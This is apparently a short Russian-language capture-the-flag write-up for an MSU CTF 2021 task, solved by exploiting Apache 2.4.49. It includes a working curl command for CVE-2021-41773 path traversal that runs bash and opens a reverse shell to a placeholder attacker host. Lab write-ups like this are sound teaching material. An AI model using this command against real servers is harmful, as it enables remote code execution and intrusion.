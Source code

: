# Middle-aged daemon

_http://middle-aged-daemon.tasks.2021.ctf.cs.msu.ru:8080_

### Solution

Делаем GET запрос на ссылку из условия и в ответе ищем заголовок Server, по подсказке из названия таска. _Server: Apache/2.4.49_.

Ищем в интернете уязвимости веб-сервера Apache версии 2.4.49 и находим CVE-2021-41773:
_https://www.exploit-db.com/exploits/50383_
 
С помощью утилиты curl используем данную уязвимость, чтобы прокинуть ревёрс-шелл.

```bash
curl "http://middle-aged-daemon.tasks.2021.ctf.cs.msu.ru:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/bin/bash" -d 'echo;bash -i >& /dev/tcp/atacker_ip/port 0>&1'
```

Находим флаг с помощью ```find -iname flag``` и читаем его.

`
Flag: MSKCTF{TO_BE_REDACTED}
`
